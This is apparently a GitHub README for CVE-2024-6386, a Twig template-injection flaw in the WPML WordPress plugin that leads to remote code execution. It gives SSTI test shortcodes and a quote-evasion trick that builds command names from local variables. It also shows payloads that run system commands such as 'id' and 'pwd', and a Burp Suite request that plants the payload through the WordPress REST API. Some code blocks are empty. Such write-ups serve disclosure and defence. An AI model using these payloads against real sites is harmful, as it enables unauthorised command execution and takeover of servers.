

# CVE-2024-6386 - RCE via Twig SSTI in WPML

## PoC
[PoC on Python+Selenium](./poc/)

Detailed research in Russian: [CVE-2024-6386](https://teletype.in/@argendo/cve-2024-6386)



## CVSS

**Base Score:** `9.9`

**Vector:**  `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`

## Summary

In [WPML](https://wpml.org) you are available to use specific [WordPress Shortcodes](https://codex.wordpress.org/Shortcode) that allows you to create macroses and render Twig templates too. So you can easily get an SSTI from it.

## Chain

### SSTI
For example, let's create a shortcode to exploit SSTI:
```
[wpml_language_switcher]
{{ 2*2 }}
[/wpml_language_switcher]
```
In this case we'll get `4` as a result of rendering our shortcode.

### RCE
Because of encoding all types of quotes to HTML by WordPress we aren't able to use typical payloads, such as: 
```
{{['id']|filter('system')}}
```

Nevertheless we can modify this payload to call OS commands from variables-letters such as: `(s = 's')`.

To do this we need to call some local variables such as:
- `css_classes`
- `languages`

First one will return us a string: `wpml-ls-statics-shortcode_actions wpml-ls`.
Second one returns an Array object of languages.

With help of this we can slice symbols we need and create our own alphabet.

So, here we make an alphabet: `[<space> ,a, c, i, d, s, y, t, e, m, p, w ]`

And yes we shoud concatenate `languages` with empty value to make a string with value `"Array"` from it.
```












```

So after that we can concatenate our alphabet to payloads:
```






{{[id]|map(system)|join}}
{{[pwd]|map(system)|join}}
{{[passwd]|map(system)|join}}
```

## Burp Suite exploitation

### Command
```
POST /wp-json/wp/v2/posts/30?_locale=user HTTP/1.1
Host: vulned.com

{
    "id":30,
    "content":"<!-- wp:shortcode -->\n[wpml_language_switcher]\n{{[id]|map(system)|join}}\n[/wpml_language_switcher]<!-- /wp:shortcode -->"
}
```
### Listing result
```
GET /?p=30 HTTP/1.1
Host: vulned.com
```

